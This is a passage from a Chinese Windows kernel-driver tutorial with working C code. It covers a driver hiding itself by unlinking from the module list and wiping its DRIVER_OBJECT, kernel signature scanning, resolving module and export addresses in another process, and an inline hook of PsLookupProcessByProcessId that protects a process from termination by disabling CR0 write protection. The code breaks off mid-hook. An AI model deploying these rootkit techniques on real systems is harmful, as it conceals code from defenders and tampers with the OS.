 - RegistryPath: 指向一个`UNICODE_STRING`结构的指针，用于指示驱动程序的注册表路径。

功能是从驱动程序的`DriverSection`中移除自身模块的信息，并启动一个新的系统线程来修改`DRIVER_OBJECT`结构的属性。具体来说，该函数执行以下步骤：

 - 1.从`Driver->DriverSection`中获取自身模块的`LIST_ENTRY`结构指针，即pModuleList；
 - 2.将`pModuleList`从双向链表中移除，即将其前一个节点的`Flink`指向其后一个节点的地址，将其后一个节点的`Blink`指向其前一个节点的地址；
 - 3.调用`PsCreateSystemThread`创建一个新的系统线程，线程入口函数为`ThreadRun`，传递参数Driver；
 - 4.设置`Driver->DriverUnload`为UnDriver，即卸载函数的地址并返回`STATUS_SUCCESS`表示初始化成功。

ThreadRun函数是一个系统线程的入口函数，该函数会在`PsCreateSystemThread`中被调用。该函数接收一个参数：

 - StartContext: 线程入口函数传递的参数，在本例中即为Driver。

函数的主要功能是延时一段时间，然后修改传递进来的`DRIVER_OBJECT`结构的属性。具体来说，该函数执行以下步骤：

 - 延时3秒钟，以等待驱动程序的初始化完成；
 - 将Driver转换为PDRIVER_OBJECT类型；
 - 将Driver的各个属性设置为NULL或0，以清空驱动程序的信息；
 - 关闭创建该线程的句柄。

上方流程，驱动实现代码总结起来如下所示:
```c
#include <ntifs.h>

HANDLE hThread;

VOID ThreadRun(PVOID StartContext)
{
    LARGE_INTEGER times;
    PDRIVER_OBJECT pDriverObject;

    // 等待3秒  单位是纳秒
    times.QuadPart = -30 * 1000 * 1000;

    KeDelayExecutionThread(KernelMode, FALSE, &times);
    pDriverObject = (PDRIVER_OBJECT)StartContext;
    
    // 修改模块信息
    pDriverObject->DriverSize = 0;
    pDriverObject->DriverSection = NULL;
    pDriverObject->DriverExtension = NULL;
    pDriverObject->DriverStart = NULL;
    pDriverObject->DriverInit = NULL;
    pDriverObject->FastIoDispatch = NULL;
    pDriverObject->DriverStartIo = NULL;

    ZwClose(hThread);
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint(("hello lyshark \n"));

    PLIST_ENTRY pModuleList;
    pModuleList = Driver->DriverSection;

    // 前一个模块的Flink=本模块的Flink
    pModuleList->Blink->Flink = pModuleList->Flink;
    
    // 前一个模块的Blink=本模块的Blink
    pModuleList->Flink->Blink = pModuleList->Blink;
    PsCreateSystemThread(&hThread, GENERIC_ALL, NULL, NULL, NULL, ThreadRun, Driver);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

输出效果如下，驱动每隔3秒执行一次模块修改：




### 5.6 内核特征码定位搜索

在前面的系列教程如`《内核枚举DpcTimer定时器》`或者`《内核枚举IoTimer定时器》`里面`LyShark`大量使用了`特征码定位`这一方法来寻找符合条件的`汇编指令`集，总体来说这种方式只能定位特征较小的指令如果特征值扩展到5位以上那么就需要写很多无用的代码，本章内容中将重点分析，并实现一个`通用`特征定位函数。

如下是一段特征码搜索片段，可以看到其实仅仅只是将上章中的搜索方式变成了一个`SearchSpecialCode`函数，如下函数，用户传入一个`扫描起始地址`以及搜索特征码的字节数组，即可完成搜索工作，具体的参数定义如下。

 - pSearchBeginAddr 扫描的内存(内核)起始地址
 - ulSearchLength 需要扫描的长度
 - pSpecialCode 扫描特征码,传入一个UCHAR类型的字节数组
 - ulSpecialCodeLength 特征码长度,传入字节数组长度

```c
PVOID SearchSpecialCode(PVOID pSearchBeginAddr, ULONG ulSearchLength, PUCHAR pSpecialCode, ULONG ulSpecialCodeLength)
{
  PVOID pDestAddr = NULL;
  PUCHAR pBeginAddr = (PUCHAR)pSearchBeginAddr;
  PUCHAR pEndAddr = pBeginAddr + ulSearchLength;
  PUCHAR i = NULL;
  ULONG j = 0;

  for (i = pBeginAddr; i <= pEndAddr; i++)
  {
    // 遍历特征码
    for (j = 0; j < ulSpecialCodeLength; j++)
    {
      // 判断地址是否有效
      if (FALSE == MmIsAddressValid((PVOID)(i + j)))
      {
        break;
      }
      // 匹配特征码
      if (*(PUCHAR)(i + j) != pSpecialCode[j])
      {
        break;
      }
    }

    // 匹配成功
    if (j >= ulSpecialCodeLength)
    {
      pDestAddr = (PVOID)i;
      break;
    }
  }
  return pDestAddr;
}
```
那么这个简单的特征码扫描函数该如何使用，这里我们就用`《内核枚举IoTimer定时器》`中枚举`IopTimerQueueHead`链表头部地址为案例进行讲解，如果你忘记了如何寻找链表头部可以去前面的文章中学习，这里只给出实现流程。



我们首先通过`MmGetSystemRoutineAddress`得到`IoInitializeTimer`首地址，然后在偏移长度为`0x7e`范围内搜索特征码`48 8d 0d`特征，其代码可以总结为如下样子。
```c
NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint(("hello lyshark.com \n"));

    // 得到基址
    PUCHAR IoInitializeTimer = GetIoInitializeTimerAddress();
    DbgPrint("IoInitializeTimer Address = %p \n", IoInitializeTimer);

    // ---------------------------------------------------
    // LyShark 开始定位特征

    // 设置起始位置
    PUCHAR StartSearchAddress = (PUCHAR)IoInitializeTimer;

    // 设置结束位置
    PUCHAR EndSearchAddress = StartSearchAddress + 0x7e;
    DbgPrint("[LyShark 搜索区间] 起始地址: 0x%X --> 结束地址: 0x%X \n", StartSearchAddress, EndSearchAddress);

    // 设置搜索长度
    LONGLONG size = EndSearchAddress - StartSearchAddress;
    DbgPrint("[LyShark 搜索长度] 长度: %d \n", size);

    PVOID ptr;

    // 指定特征码
    UCHAR pSpecialCode[256] = { 0 };

    // 指定特征码长度
    ULONG ulSpecialCodeLength = 3;

    pSpecialCode[0] = 0x48;
    pSpecialCode[1] = 0x8d;
    pSpecialCode[2] = 0x0d;

    // 开始搜索,找到后返回首地址
    ptr = SearchSpecialCode(StartSearchAddress, size, pSpecialCode, ulSpecialCodeLength);

    DbgPrint("搜索特征码首地址: 0x%p \n", ptr);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

代码运行后你会发现可以直接定位到我们所需要的位置上，如下图所示：



如上图可以看到，这个特征码定位函数返回的是内存地址，而我们需要得到地址内的数据，此时就需要提取以下。

例如当指令是: 
```c
fffff80206185c00 488d0dd9ddcdff  lea rcx,[nt!IopTimerQueueHead (fffff80205e639e0)]
```
那么就需要`RtlCopyMemory`跳过前三个字节，并在第四个字节开始取数据，并将读入的数据放入到`IopTimerQueueHead_LyShark_Code`变量内。
```c
// 开始搜索,找到后返回首地址
ptr = SearchSpecialCode(StartSearchAddress, size, pSpecialCode, ulSpecialCodeLength);

DbgPrint("搜索特征码首地址: 0x%p \n", ptr);

// 提取特征
// fffff802`06185c00 488d0dd9ddcdff  lea     rcx,[nt!IopTimerQueueHead (fffff802`05e639e0)]
ULONG64 iOffset = 0;
ULONG64 IopTimerQueueHead_LyShark_Code = 0;

__try
{
    // 拷贝内存跳过lea,向后四字节
    RtlCopyMemory(&iOffset, (ULONG64)ptr + 3, 4);

    // 取出后面的IopTimerQueueHead内存地址 LyShark.com
    IopTimerQueueHead_LyShark_Code = iOffset + (ULONG64)ptr + 7;

    DbgPrint("提取数据: 0x%p \n", IopTimerQueueHead_LyShark_Code);
}
__except (1)
{
    DbgPrint("[LySHark] 拷贝内存异常 \n");
}
```

这样即可得到我们所需要的地址，如下结果所示：



### 5.7 取进程模块函数地址

在笔者上一篇文章`《内核取应用层模块基地址》`中简单为大家介绍了如何通过遍历`PLIST_ENTRY32`链表的方式获取到`32位`应用程序中特定模块的基地址，由于是入门系列所以并没有封装实现太过于通用的获取函数，本章将继续延申这个话题，并依次实现通用版`GetUserModuleBaseAddress()`取远程进程中指定模块的基址和`GetModuleExportAddress()`取远程进程中特定模块中的函数地址，此类功能也是各类安全工具中常用的代码片段。

首先封装一个`lyshark.h`头文件，此类头文件中的定义都是微软官方定义好的规范，如果您想获取该结构的详细说明文档请参阅微软官方，此处不做过多的介绍。
```c
#include <ntifs.h>
#include <ntimage.h>
#include <ntstrsafe.h>

// 导出未导出函数
NTKERNELAPI PPEB NTAPI PsGetProcessPeb(IN PEPROCESS Process);
NTKERNELAPI PVOID NTAPI PsGetProcessWow64Process(IN PEPROCESS Process);

typedef struct _PEB32
{
  UCHAR InheritedAddressSpace;
  UCHAR ReadImageFileExecOptions;
  UCHAR BeingDebugged;
  UCHAR BitField;
  ULONG Mutant;
  ULONG ImageBaseAddress;
  ULONG Ldr;
  ULONG ProcessParameters;
  ULONG SubSystemData;
  ULONG ProcessHeap;
  ULONG FastPebLock;
  ULONG AtlThunkSListPtr;
  ULONG IFEOKey;
  ULONG CrossProcessFlags;
  ULONG UserSharedInfoPtr;
  ULONG SystemReserved;
  ULONG AtlThunkSListPtr32;
  ULONG ApiSetMap;
} PEB32, *PPEB32;

typedef struct _PEB_LDR_DATA
{
  ULONG Length;
  UCHAR Initialized;
  PVOID SsHandle;
  LIST_ENTRY InLoadOrderModuleList;
  LIST_ENTRY InMemoryOrderModuleList;
  LIST_ENTRY InInitializationOrderModuleList;
} PEB_LDR_DATA, *PPEB_LDR_DATA;

typedef struct _PEB
{
  UCHAR InheritedAddressSpace;
  UCHAR ReadImageFileExecOptions;
  UCHAR BeingDebugged;
  UCHAR BitField;
  PVOID Mutant;
  PVOID ImageBaseAddress;
  PPEB_LDR_DATA Ldr;
  PVOID ProcessParameters;
  PVOID SubSystemData;
  PVOID ProcessHeap;
  PVOID FastPebLock;
  PVOID AtlThunkSListPtr;
  PVOID IFEOKey;
  PVOID CrossProcessFlags;
  PVOID KernelCallbackTable;
  ULONG SystemReserved;
  ULONG AtlThunkSListPtr32;
  PVOID ApiSetMap;
} PEB, *PPEB;

typedef struct _PEB_LDR_DATA32
{
  ULONG Length;
  UCHAR Initialized;
  ULONG SsHandle;
  LIST_ENTRY32 InLoadOrderModuleList;
  LIST_ENTRY32 InMemoryOrderModuleList;
  LIST_ENTRY32 InInitializationOrderModuleList;
} PEB_LDR_DATA32, *PPEB_LDR_DATA32;

typedef struct _LDR_DATA_TABLE_ENTRY32
{
  LIST_ENTRY32 InLoadOrderLinks;
  LIST_ENTRY32 InMemoryOrderLinks;
  LIST_ENTRY32 InInitializationOrderLinks;
  ULONG DllBase;
  ULONG EntryPoint;
  ULONG SizeOfImage;
  UNICODE_STRING32 FullDllName;
  UNICODE_STRING32 BaseDllName;
  ULONG Flags;
  USHORT LoadCount;
  USHORT TlsIndex;
  LIST_ENTRY32 HashLinks;
  ULONG TimeDateStamp;
} LDR_DATA_TABLE_ENTRY32, *PLDR_DATA_TABLE_ENTRY32;

typedef struct _LDR_DATA_TABLE_ENTRY
{
  LIST_ENTRY InLoadOrderLinks;
  LIST_ENTRY InMemoryOrderLinks;
  LIST_ENTRY InInitializationOrderLinks;
  PVOID DllBase;
  PVOID EntryPoint;
  ULONG SizeOfImage;
  UNICODE_STRING FullDllName;
  UNICODE_STRING BaseDllName;
  ULONG Flags;
  USHORT LoadCount;
  USHORT TlsIndex;
  LIST_ENTRY HashLinks;
  ULONG TimeDateStamp;
} LDR_DATA_TABLE_ENTRY, *PLDR_DATA_TABLE_ENTRY;
```

#### 5.7.1 取进程中模块基址

GetUserModuleBaseAddress 取进程中模块基址，该功能在`《内核取应用层模块基地址》`中详细介绍过原理，这段代码核心原理如下所示，此处最需要注意的是如果是`32位进程`则我们需要得到`PPEB32 Peb32`结构体，该结构体通常可以直接使用`PsGetProcessWow64Process()`这个内核函数获取到，而如果是`64位进程`则需要将寻找PEB的函数替换为`PsGetProcessPeb()`，其他的枚举细节与上一篇文章中的方法一致。
```c
#include <ntifs.h>
#include <windef.h>
#include "lyshark.h"

// 获取特定进程内特定模块的基址
PVOID GetUserModuleBaseAddress(IN PEPROCESS EProcess, IN PUNICODE_STRING ModuleName, IN BOOLEAN IsWow64)
{
    if (EProcess == NULL)
        return NULL;
    __try
    {
        // 设置延迟时间为250毫秒
        LARGE_INTEGER Time = { 0 };
        Time.QuadPart = -250ll * 10 * 1000;

        // 如果是32位则执行如下代码
        if (IsWow64)
        {
            // 得到PEB进程信息
            PPEB32 Peb32 = (PPEB32)PsGetProcessWow64Process(EProcess);
            if (Peb32 == NULL)
            {
                return NULL;
            }

            // 延迟加载等待时间
            for (INT i = 0; !Peb32->Ldr && i < 10; i++)
            {
                KeDelayExecutionThread(KernelMode, TRUE, &Time);
            }

            // 没有PEB加载超时
            if (!Peb32->Ldr)
            {
                return NULL;
            }

            // 搜索模块 InLoadOrderModuleList
            for (PLIST_ENTRY32 ListEntry = (PLIST_ENTRY32)((PPEB_LDR_DATA32)Peb32->Ldr)->InLoadOrderModuleList.Flink; ListEntry != &((PPEB_LDR_DATA32)Peb32->Ldr)->InLoadOrderModuleList; ListEntry = (PLIST_ENTRY32)ListEntry->Flink)
            {
                UNICODE_STRING UnicodeString;
                PLDR_DATA_TABLE_ENTRY32 LdrDataTableEntry32 = CONTAINING_RECORD(ListEntry, LDR_DATA_TABLE_ENTRY32, InLoadOrderLinks);
                RtlUnicodeStringInit(&UnicodeString, (PWCH)LdrDataTableEntry32->BaseDllName.Buffer);

                // 找到了返回模块基址
                if (RtlCompareUnicodeString(&UnicodeString, ModuleName, TRUE) == 0)
                {
                    return (PVOID)LdrDataTableEntry32->DllBase;
                }
            }
        }
        // 如果是64位则执行如下代码
        else
        {
            // 同理,先找64位PEB
            PPEB Peb = PsGetProcessPeb(EProcess);
            if (!Peb)
            {
                return NULL;
            }

            // 延迟加载
            for (INT i = 0; !Peb->Ldr && i < 10; i++)
            {
                KeDelayExecutionThread(KernelMode, TRUE, &Time);
            }

            // 找不到PEB直接返回
            if (!Peb->Ldr)
            {
                return NULL;
            }

            // 遍历链表
            for (PLIST_ENTRY ListEntry = Peb->Ldr->InLoadOrderModuleList.Flink; ListEntry != &Peb->Ldr->InLoadOrderModuleList; ListEntry = ListEntry->Flink)
            {
                // 将特定链表转换为PLDR_DATA_TABLE_ENTRY格式
                PLDR_DATA_TABLE_ENTRY LdrDataTableEntry = CONTAINING_RECORD(ListEntry, LDR_DATA_TABLE_ENTRY, InLoadOrderLinks);

                // 找到了则返回地址
                if (RtlCompareUnicodeString(&LdrDataTableEntry->BaseDllName, ModuleName, TRUE) == 0)
                {
                    return LdrDataTableEntry->DllBase;
                }
            }
        }
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
        return NULL;
    }
    return NULL;
}
```
那么该函数该如何调用传递参数呢，如下代码是`DriverEntry`入口处的调用方法，首先要想得到特定进程的特定模块地址则第一步就是需要`PsLookupProcessByProcessId`找到模块的`EProcess`结构，接着通过`PsGetProcessWow64Process`得到当前被操作进程是32位还是64位，通过调用`KeStackAttachProcess`附加到进程内存中，然后调用`GetUserModuleBaseAddress`并传入需要获取模块的名字得到数据后返回给`NtdllAddress`变量，最后调用`KeUnstackDetachProcess`取消附加即可。
```c
NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    HANDLE ProcessID = (HANDLE)7924;

    PEPROCESS EProcess = NULL;
    NTSTATUS Status = STATUS_SUCCESS;
    KAPC_STATE ApcState;

    DbgPrint("Hello LyShark.com \n");

    // 根据PID得到进程EProcess结构
    Status = PsLookupProcessByProcessId(ProcessID, &EProcess);
    if (Status != STATUS_SUCCESS)
    {
        DbgPrint("获取EProcessID失败 \n");
        return Status;
    }

    // 判断目标进程是32位还是64位
    BOOLEAN IsWow64 = (PsGetProcessWow64Process(EProcess) != NULL) ? TRUE : FALSE;

    // 验证地址是否可读
    if (!MmIsAddressValid(EProcess))
    {
        DbgPrint("地址不可读 \n");
        Driver->DriverUnload = UnDriver;
        return STATUS_SUCCESS;
    }

    // 将当前线程连接到目标进程的地址空间(附加进程)
    KeStackAttachProcess((PRKPROCESS)EProcess, &ApcState);

    __try
    {
        UNICODE_STRING NtdllUnicodeString = { 0 };
        PVOID NtdllAddress = NULL;

        // 得到进程内ntdll.dll模块基地址
        RtlInitUnicodeString(&NtdllUnicodeString, L"Ntdll.dll");
        NtdllAddress = GetUserModuleBaseAddress(EProcess, &NtdllUnicodeString, IsWow64);
        if (!NtdllAddress)
        {
            DbgPrint("没有找到基址 \n");
            Driver->DriverUnload = UnDriver;
            return STATUS_SUCCESS;
        }

        DbgPrint("[*] 模块ntdll.dll基址: %p \n", NtdllAddress);
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
    }

    // 取消附加
    KeUnstackDetachProcess(&ApcState);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```
替换`DriverEntry`入口函数处的`ProcessID`并替换为当前需要获取的应用层进程PID，运行驱动程序即可得到该进程内`Ntdll.dll`的模块基址，输出效果如下；



#### 5.7.2 取模块内函数基址

GetModuleExportAddress 实现获取特定模块中特定函数的基地址，通常我们通过`GetUserModuleBaseAddress()`可得到进程内特定模块的基址，然后则可继续通过`GetModuleExportAddress()`获取到该模块内特定导出函数的内存地址，至于获取导出表中特定函数的地址则可通过如下方式循环遍历导出表函数获取。
```c
// 获取特定模块下的导出函数地址
PVOID GetModuleExportAddress(IN PVOID ModuleBase, IN PCCHAR FunctionName, IN PEPROCESS EProcess)
{
    PIMAGE_DOS_HEADER ImageDosHeader = (PIMAGE_DOS_HEADER)ModuleBase;
    PIMAGE_NT_HEADERS32 ImageNtHeaders32 = NULL;
    PIMAGE_NT_HEADERS64 ImageNtHeaders64 = NULL;
    PIMAGE_EXPORT_DIRECTORY ImageExportDirectory = NULL;
    ULONG ExportDirectorySize = 0;
    ULONG_PTR FunctionAddress = 0;

    // 为空则返回
    if (ModuleBase == NULL)
    {
        return NULL;
    }

    // 是不是PE文件
    if (ImageDosHeader->e_magic != IMAGE_DOS_SIGNATURE)
    {
        return NULL;
    }

    // 获取NT头
    ImageNtHeaders32 = (PIMAGE_NT_HEADERS32)((PUCHAR)ModuleBase + ImageDosHeader->e_lfanew);
    ImageNtHeaders64 = (PIMAGE_NT_HEADERS64)((PUCHAR)ModuleBase + ImageDosHeader->e_lfanew);

    // 是64位则执行
    if (ImageNtHeaders64->OptionalHeader.Magic == IMAGE_NT_OPTIONAL_HDR64_MAGIC)
    {
        ImageExportDirectory = (PIMAGE_EXPORT_DIRECTORY)(ImageNtHeaders64->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress + (ULONG_PTR)ModuleBase);
        ExportDirectorySize = ImageNtHeaders64->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].Size;
    }
    // 是32位则执行
    else
    {
        ImageExportDirectory = (PIMAGE_EXPORT_DIRECTORY)(ImageNtHeaders32->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress + (ULONG_PTR)ModuleBase);
        ExportDirectorySize = ImageNtHeaders32->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].Size;
    }

    // 得到导出表地址偏移和名字
    PUSHORT pAddressOfOrds = (PUSHORT)(ImageExportDirectory->AddressOfNameOrdinals + (ULONG_PTR)ModuleBase);
    PULONG  pAddressOfNames = (PULONG)(ImageExportDirectory->AddressOfNames + (ULONG_PTR)ModuleBase);
    PULONG  pAddressOfFuncs = (PULONG)(ImageExportDirectory->AddressOfFunctions + (ULONG_PTR)ModuleBase);

    // 循环搜索导出表
    for (ULONG i = 0; i < ImageExportDirectory->NumberOfFunctions; ++i)
    {
        USHORT OrdIndex = 0xFFFF;
        PCHAR  pName = NULL;

        // 搜索导出表下标索引
        if ((ULONG_PTR)FunctionName <= 0xFFFF)
        {
            OrdIndex = (USHORT)i;
        }
        // 搜索导出表名字
        else if ((ULONG_PTR)FunctionName > 0xFFFF && i < ImageExportDirectory->NumberOfNames)
        {
            pName = (PCHAR)(pAddressOfNames[i] + (ULONG_PTR)ModuleBase);
            OrdIndex = pAddressOfOrds[i];
        }
        else
        {
            return NULL;
        }

        // 找到设置返回值并跳出
        if (((ULONG_PTR)FunctionName <= 0xFFFF && (USHORT)((ULONG_PTR)FunctionName) == OrdIndex + ImageExportDirectory->Base) || ((ULONG_PTR)FunctionName > 0xFFFF && strcmp(pName, FunctionName) == 0))
        {
            FunctionAddress = pAddressOfFuncs[OrdIndex] + (ULONG_PTR)ModuleBase;
            break;
        }
    }
    return (PVOID)FunctionAddress;
}
```
如何调用此方法，首先将`ProcessID`设置为需要读取的进程PID，然后将上图中所输出的`0x00007FF9553C0000`赋值给`BaseAddress`接着调用`GetModuleExportAddress()`并传入`BaseAddress`模块基址，需要读取的`LdrLoadDll`函数名，以及当前进程的`EProcess`结构。
```c
NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    HANDLE ProcessID = (HANDLE)4144;
    PEPROCESS EProcess = NULL;
    NTSTATUS Status = STATUS_SUCCESS;

    // 根据PID得到进程EProcess结构
    Status = PsLookupProcessByProcessId(ProcessID, &EProcess);
    if (Status != STATUS_SUCCESS)
    {
        DbgPrint("获取EProcessID失败 \n");
        return Status;
    }

    PVOID BaseAddress = (PVOID)0x00007FF9553C0000;
    PVOID RefAddress = 0;

    // 传入Ntdll.dll基址 + 函数名 得到该函数地址
    RefAddress = GetModuleExportAddress(BaseAddress, "LdrLoadDll", EProcess);
    DbgPrint("[*] 函数地址: %p \n", RefAddress);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```
运行这段程序，即可输出如下信息，此时也就得到了`x64.exe`进程内`ntdll.dll`模块里面的`LdrLoadDll`函数的内存地址，如下所示；



### 5.8 内核LDE引擎取汇编长度

本章开始`LyShark`将介绍如何在内核中实现`InlineHook`挂钩这门技术，内核挂钩的第一步需要实现一个动态计算汇编指令长度的功能，该功能可以使用`LDE64`这个反汇编引擎，该引擎小巧简单可以直接在驱动中使用，LDE引擎是`BeaEngine`引擎的一部分，后来让`BeatriX`打包成了一个`ShellCode`代码，并可以通过`typedef`动态指针的方式直接调用功能，本章内容作为后期`Hook`挂钩的铺垫部分，独立出来也是因为代码太多太占空间一篇文章写下来或很长影响阅读。

 - LDE反汇编引擎源代码：https://github.com/BeaEngine/lde64

首先定义一个`lyshark_lde64.h`头文件，并写入如下`ShellCode`代码片段，当然这不是最新的，如果你需要最新的可以自己下载源代码编译后提取出来替换即可，不过该引擎很多年没有更新了替换的意义也不大毕竟功能就那么几行而已。
```c
// 反汇编引擎
unsigned char szShellCode[12800] =
{
    // 参考博客园或参考本书附件
  // https://www.cnblogs.com/LyShark/p/16832307.html
};
```

那么该如何调用呢？

调用其实很容易，首先调用`lde_init()`函数将功能载入到内存，然后通过`lde_disasm()`直接调用功能，在调用时第一个参数传入需要计算的内存地址，第二个参数是位数，如果传入0则表示计算32位汇编汇编，如果传入64则计算64位汇编长度。
```c
#include "lyshark_lde64.h"
#include <ntifs.h>

// 计算地址处指令有多少字节
// address = 地址
// bits 32位驱动传入0 64传入64
typedef INT(*LDE_DISASM)(PVOID address, INT bits);

LDE_DISASM lde_disasm;

// 初始化引擎
VOID lde_init()
{
    lde_disasm = ExAllocatePool(NonPagedPool, 12800);
    memcpy(lde_disasm, szShellCode, 12800);
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动已卸载 \n");
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    // 初始化反汇编引擎
    lde_init();

    UNICODE_STRING unstr;
    PVOID addr;

    RtlInitUnicodeString(&unstr, L"PsLookupProcessByProcessId");
    addr = MmGetSystemRoutineAddress(&unstr);
    DbgPrint("获取内存地址: 0x%p \n", addr);

    // 计算第一条汇编指令长度
    INT asm_len = lde_disasm(addr, 64);
    DbgPrint("第一条指令长度: %d \n", asm_len);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

运行上方的驱动程序，即可得到`PsLookupProcessByProcessId`函数第一条指令的实际长度，输出效果如下；



如果我们需要`Hook挂钩`则最常用的就是填充`JMP`跨4G跳转，该指令占用`14个字节`的内存长度，但我们无法保证`14个字节`就是一个完整的指令长度，有可能指令会被截断从而导致执行异常，此时必须得到完整指令的长度，指令长度就需要大于等于14，所以代码中的计算应该这样来实现。
```c
#include "lyshark_lde64.h"
#include <ntifs.h>

// 计算地址处指令有多少字节
// address = 地址
// bits 32位驱动传入0 64传入64
typedef INT(*LDE_DISASM)(PVOID address, INT bits);

LDE_DISASM lde_disasm;

// 初始化引擎
VOID lde_init()
{
    lde_disasm = ExAllocatePool(NonPagedPool, 12800);
    memcpy(lde_disasm, szShellCode, 12800);
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint("驱动已卸载 \n");
}

// 得到完整指令长度,避免截断
ULONG GetFullPatchSize(PUCHAR Address)
{
    ULONG LenCount = 0, Len = 0;

    // 至少需要14字节
    while (LenCount <= 14)
    {
        Len = lde_disasm(Address, 64);
        Address = Address + Len;
        LenCount = LenCount + Len;
    }
    return LenCount;
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    // 初始化反汇编引擎
    lde_init();

    UNICODE_STRING unstr;
    PVOID addr;

    RtlInitUnicodeString(&unstr, L"PsLookupProcessByProcessId");
    addr = MmGetSystemRoutineAddress(&unstr);
    DbgPrint("获取内存地址: 0x%p \n", addr);

    ULONG count = GetFullPatchSize(addr);
    DbgPrint("完整指令长度: %d \n", count);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

运行这个驱动程序，计算得到的结果与上图作比较，此处得到的才是一个完整的指令长度；



### 5.9 内核InlineHook挂钩技术

在上一章`《内核LDE64引擎计算汇编长度》`中，`LyShark`教大家如何通过`LDE64`引擎实现计算反汇编指令长度，本章将在此基础之上实现内联函数挂钩，内核中的`InlineHook`函数挂钩其实与应用层一致，都是使用`劫持执行流`并跳转到我们自己的函数上来做处理，唯一的不同的是内核`Hook`只针对`内核API`函数，但由于其身处在`最底层`所以一旦被挂钩其整个应用层都将会受到影响，这就直接决定了在内核层挂钩的效果是应用层无法比拟的，对于安全从业者来说学会使用内核挂钩也是很重要。

内核挂钩的原理是一种劫持系统函数调用的技术，用于在运行时对系统函数进行修改或者监控。其基本思想是先获取要被劫持的函数的地址，然后将该函数的前15个字节的指令保存下来，接着将自己的代理函数地址写入到原始函数上，这样当API被调用时，就会默认转向到自己的代理函数上执行，从而实现函数的劫持。

挂钩的具体步骤如下：

 - 1.使用`MmGetSystemRoutineAddress`函数获取要被劫持的函数地址。
 - 2.使用自己的代理函数取代原始函数，代理函数和原始函数具有相同的参数和返回值类型，并且在代理函数中调用原始函数。
 - 3.保存原始函数的前`15`个字节的指令，因为这些指令通常被认为是函数的前导码或是修饰码。
 - 4.在原始函数的前15个字节位置写入`jmp MyPsLookupProcessByProcessId`的指令，使得API调用会跳转到我们的代理函数。
 - 5.当代理函数被调用时，执行我们自己的逻辑，然后在适当的时候再调用原始函数，最后将其返回值返回给调用者。
 - 6.如果需要恢复原始函数的调用，将保存的前15个字节的指令写回原始函数即可。

挂钩的原理可以总结为，通过`MmGetSystemRoutineAddress`得到原函数地址，然后保存该函数的`前15`个字节的指令，将自己的`MyPsLookupProcessByProcessId`代理函数地址写出到原始函数上，此时如果有API被调用则默认会转向到我们自己的函数上面执行，恢复原理则是将提前保存好的前15个原始字节写回则恢复原函数的调用。

而如果需要恢复挂钩状态，则只需要还原提前保存的机器码即可，恢复内核挂钩的原理是将先前保存的原始函数前15个字节的指令写回到原始函数地址上，从而还原原始函数的调用。具体步骤如下：

 - 1.获取原函数地址，可以通过`MmGetSystemRoutineAddress`函数获取。
 - 2.将保存的原始函数前15个字节的指令写回到原始函数地址上，可以使用`memcpy`等函数实现。
 - 3.将代理函数的地址清除，可以将地址设置为NULL。

原理很简单，基本上`InlineHook`类的代码都是一个样子，如下是一段完整的挂钩`PsLookupProcessByProcessId`的驱动程序，当程序被加载时则默认会保护`lyshark.exe`进程，使其无法被用户使用任务管理器结束掉。
```c
#include "lyshark_lde64.h"
#include <ntifs.h>
#include <windef.h>
#include <intrin.h>

#pragma  intrinsic(_disable)
#pragma  intrinsic(_enable)

// --------------------------------------------------------------
// 汇编计算方法
// --------------------------------------------------------------
// 计算地址处指令有多少字节
// address = 地址
// bits 32位驱动传入0 64传入64
typedef INT(*LDE_DISASM)(PVOID address, INT bits);

LDE_DISASM lde_disasm;

// 初始化引擎
VOID lde_init()
{
    lde_disasm = ExAllocatePool(NonPagedPool, 12800);
    memcpy(lde_disasm, szShellCode, 12800);
}

// 得到完整指令长度,避免截断
ULONG GetFullPatchSize(PUCHAR Address)
{
    ULONG LenCount = 0, Len = 0;

    // 至少需要14字节
    while (LenCount <= 14)
    {
        Len = lde_disasm(Address, 64);
        Address = Address + Len;
        LenCount = LenCount + Len;
    }
    return LenCount;
}

// --------------------------------------------------------------
// Hook函数封装
// --------------------------------------------------------------

// 定义指针方便调用
typedef NTSTATUS(__fastcall *PSLOOKUPPROCESSBYPROCESSID)(HANDLE ProcessId, PEPROCESS *Process);

ULONG64 protect_eprocess = 0;           // 需要保护进程的eprocess
ULONG patch_size = 0;                   // 被修改了几个字节
PUCHAR head_n_byte = NULL;              // 前几个字节数组
PVOID original_address = NULL;          // 原函数地址

KIRQL WPOFFx64()
{
    KIRQL irql = KeRaiseIrqlToDpcLevel();
    UINT64 cr0 = __readcr0();
    cr0 &= 0xfffffffffffeffff;
    __writecr0(cr0);
    _disable();
    return irql;
}

VOID WPONx64(KIRQL irql)
{
    UINT64 cr0 = __readcr0();
    cr0 |= 0x10000;
    _enable();
    __writecr0(cr0);
    KeLowerIrql(irql);
}

